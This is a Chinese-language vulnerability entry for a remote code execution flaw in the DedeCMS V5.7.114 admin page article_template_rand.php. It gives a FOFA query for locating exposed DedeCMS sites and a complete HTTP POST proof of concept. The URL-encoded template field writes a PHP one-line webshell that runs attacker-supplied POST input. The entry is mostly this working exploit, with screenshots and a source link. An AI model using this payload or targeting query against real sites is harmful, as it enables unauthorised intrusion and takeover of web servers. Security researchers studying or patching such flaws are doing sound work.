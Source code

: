 # DedeCMSV5.7.114后台article_template_rand.php存在远程代码执行漏洞

DedeCMS V5.7.114存在远程代码执行漏洞。产生该漏洞的原因是，虽然article_template_rand.php对编辑的文件进行了一定的限制，但攻击者仍然可以绕过这些限制并以某种方式编写代码，从而允许经过身份验证的攻击者利用该漏洞执行任意命令并获取系统权限。

## fofa

```yaml
app="DedeCMS网站内容管理系统"
```

## poc

```yaml
POST /dede/article_template_rand.php HTTP/1.1
Host: 127.0.0.11
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 1065
Origin: http://127.0.0.11
Connection: close
Referer: http://127.0.0.11/dede/article_template_rand.php
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=89s6bbv2d1unokav5grt4bk2g4; _csrf_name_236f0c58=8f0d4c50bfce77f693ce4b8d93af8be7; _csrf_name_236f0c581BH21ANI1AGD297L1FF21LN02BGE1DNG=23bfa72eb66439a6; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=10acd9938ef3615d; DedeLoginTime=1720185221; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=d2b9bcefe628ee47; ENV_GOBACK_URL=%2Fdede%2Fsys_admin_user.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=4

dopost=save&token=7fa44bfa91d7f797b4c983c76f7c9f9e&templates=%3C%3Fphp%0D%0A%0D%0A%2F%2F%E8%BF%99%E4%B8%AA%E5%80%BC%E4%B8%BA+0+%E8%A1%A8%E7%A4%BA%E5%85%B3%E9%97%AD%E6%AD%A4%E8%AE%BE%E7%BD%AE%EF%BC%8C+%E4%B8%BA+1+%E8%A1%A8%E7%A4%BA%E5%BC%80%E5%90%AF%0D%0A%24cfg_tamplate_rand+%3D+0%3B%0D%0A%0D%0A%2F%2F%E6%A8%A1%E6%9D%BF%E6%95%B0%E7%BB%84%EF%BC%8C%E5%A6%82%E6%9E%9C%E9%9C%80%E8%A6%81%E5%A2%9E%E5%8A%A0%EF%BC%8C%E6%8C%89%E8%BF%99%E4%B8%AA%E6%A0%BC%E5%BC%8F%E5%A2%9E%E5%8A%A0%E6%88%96%E4%BF%AE%E6%94%B9%E5%8D%B3%E5%8F%AF%28%E5%BF%85%E9%A1%BB%E7%A1%AE%E4%BF%9D%E8%BF%99%E4%BA%9B%E6%A8%A1%E6%9D%BF%E6%98%AF%E5%AD%98%E5%9C%A8%E7%9A%84%29%EF%BC%8C%E5%B9%B6%E4%B8%94%E6%95%B0%E9%87%8F%E5%BF%85%E9%A1%BB%E4%B8%BA2%E4%B8%AA%E6%88%96%E4%BB%A5%E4%B8%8A%E3%80%82%0D%0A%24cfg_tamplate_arr%5B%5D+%3D+%27article_article.htm%27%3B%0D%0A%24cfg_tamplate_arr%5B%5D+%3D+%27article_article1.htm%27%3B%0D%0A%24cfg_tamplate_arr%5B%5D+%3D+%27article_article2.htm%27%3B%0D%0A%24a+%3D+%27_POST%27%3B%0D%0A%24%24a%5B1%5D%28%24%24a%5B0%5D%29%3B%0D%0A%3F%3E%0D%0A&imageField1.x=6&imageField1.y=9
```

![2024711-4](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407191223297.png)

![2024711-5](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407191223648.png)

## 漏洞来源

- https://gitee.com/fushuling/cve/blob/master/dedeCMS%20V5.7.114%20article_template_rand.php%20code%20injection.md